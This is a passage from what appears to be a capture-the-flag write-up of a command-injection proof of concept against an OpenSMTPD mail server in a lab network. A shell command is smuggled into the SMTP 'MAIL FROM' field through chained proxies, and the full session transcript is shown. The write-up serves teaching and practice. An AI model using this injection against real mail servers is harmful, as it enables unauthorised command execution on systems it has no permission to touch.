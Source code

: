 
### POC

#### Manual

To test this, I’ll use `nc` to try to `ping` my VM from the SMTP server. I’ll
start `tcpdump` listening for ICMP, and then connect to the port:

    
    
    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf nc 10.241.251.113 25
    [proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
    220 smtp.realcorp.htb ESMTP OpenSMTPD
    

I’ll enter `HELO` and then the payload in the `MAIL FROM`:

    
    
    HELO x
    250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
    MAIL FROM:<;ping -c 1 10.10.14.7;> 
    250 2.0.0 Ok
    

Next I need to enter the rest of the fields. But it fails on trying to send to
root:

    
    
    RCPT TO:<root>
    550 Invalid recipient: <root@smtp.realcorp.htb>
    

Luckily I had an email address from the Squid pages:

    
    
    RCPT TO:<j.nakazawa@realcorp.htb>
    250 2.1.5 Destination address valid: Recipient ok
    

Now the data. The top blank line is important, and then whatever I want
leading up to a line with just a `.`:

    
    
    DATA
    354 Enter mail, end with "." on a line by itself
    
    0xdf was here
    .
    250 2.0.0 b555d48d Message accepted for delivery
    

When it prints “Message accepted for delivery”, ICMP packets arrive at
`tcpdump`:

    
    